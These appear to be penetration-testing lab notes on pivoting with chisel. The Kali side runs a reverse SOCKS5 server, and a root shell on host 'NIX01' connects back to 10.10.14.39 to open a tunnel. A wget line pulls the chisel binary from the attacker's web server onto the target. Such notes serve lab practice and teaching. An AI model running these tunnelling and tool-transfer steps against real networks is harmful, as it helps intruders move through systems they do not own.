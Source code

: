 ### On Kali Machine
#chiselserver
```bash
┌──(root㉿kali)-[/opt/chisel]
└─# ./chisel_nix server --socks5 --reverse -p 1000
2023/08/10 12:41:50 server: Reverse tunnelling enabled
2023/08/10 12:41:50 server: Fingerprint 2IPANylYvmV2NdxK3rDm/Bejk8EcLWUKsJRzorLtz1c=
2023/08/10 12:41:50 server: Listening on http://0.0.0.0:1000

./chisel_1.8.1_linux_amd64  --socks5 --reverse -p 1000

./chisel_64 server --socks5 --reverse -p 1000
```

### On Client Machine 
#chiselclient
```bash
root@NIX01:~# ./chisel_64 client 10.10.14.39:1000 R:1080:socks
./chisel_64 client 10.10.14.39:1000 R:1080:socks
2023/08/10 09:43:05 client: Connecting to ws://10.10.14.39:1000
2023/08/10 09:43:06 client: Connected (Latency 27.77469ms)

./chisel_1.8.1_linux_amd64.exe client 10.10.14.39:1000 R:1080:socks
```

wget http://10.10.14.39:8000/chisel_64.



